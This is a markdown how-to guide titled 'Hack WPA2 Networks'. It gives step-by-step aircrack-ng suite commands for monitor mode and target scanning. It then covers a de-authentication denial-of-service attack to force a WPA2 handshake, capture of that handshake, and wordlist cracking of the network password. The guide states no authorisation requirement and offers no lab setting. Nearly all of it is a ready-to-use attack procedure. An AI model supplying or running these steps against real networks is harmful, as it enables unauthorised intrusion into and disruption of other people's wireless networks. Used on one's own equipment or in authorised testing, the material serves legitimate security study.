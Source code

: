 # Hack WPA2 Networks

## Install Aircrak-ng In Your Machine

```
sudo apt install aircrack-ng
```



## Put the Network Interface Card in Monitor Mode

### Identify the Wireless Network Card

```
iwconfig
```

### Run The Below Commands

```
sudo airmon-ng check rfkillsudo
airmon-ng start <network interface>
```



## Look For Targets

```
sudo airodump-ng <network interface>
```



## Scan A Specific Target

```
sudo airodump-ng <network interface> --bssid <AP>
```



## Capture the Handshake

### Performing DoS on the AP

You can use `aireplay-ng` or `mdk4` to disconnect devices from APs for a time. This is called a de-authentication attack or a wireless DOS (Denial-Of-Service) attack.

Now here’s the game plan:

1. Setup airodump-ng to capture packets and save them
2. De-authenticate the device for some time while airodump-ng is running
3. Capture the handshake

### 1. Setup airodump-ng to capture packets and save them

```
sudo airodump-ng -c <channel number> --bssid <AP BSSID> <network interface> -w <path for saved packets file>
```

{% hint style="info" %}
Here, we're using the `-c` flag to specify the channel to search, the `--bssid` flag for the MAC address of the AP, and the `-w` flag to give a path you want to save the captured packets to.
{% endhint %}

{% hint style="info" %}
Quick lesson: Channels reduce the chances of APs interfering with each other. When running `airodump-ng`, you can identify the channel number under the CH column.
{% endhint %}

### 2. Run the De-Authentication Attack

```
sudo aireplay-ng -a <BSSID of the AP> --deauth <time> <network interface>
```

{% hint style="info" %}
The `-a` flag specifies the MAC address of the AP, `--deauth` specifies how long you want the attack to run in seconds, followed up by the network card.
{% endhint %}

### 3. Capture the Handshake

{% hint style="info" %}
While the DOS attack is underway, check on your airodump scan. You should see at the right top : `WPA handshake: <mac address>`. Once you have verified that, you can stop the replay attack and the `airodump-ng` scan.
{% endhint %}



## Cracking the Captured Password

{% hint style="info" %}
A PMK is basically an algorithmic combination of a word and the APs name. Our intention is to continuously generate PMKs using a wordlist against the handshake. If the PMK is valid, the word used to generate it is the **password**. If the PMK is not valid, it skips to the next word on the list.
{% endhint %}

```
sudo aircrack-ng <captured file with .cap> -w <path to wordlist>
```



## END: Put Your Network Card In Managed Mode

To clean up, simply remove the file captures, close your terminals, and run the command `service NetworkManager restart` to change your network card back to managed mode so you can connect to the Wi-Fi.
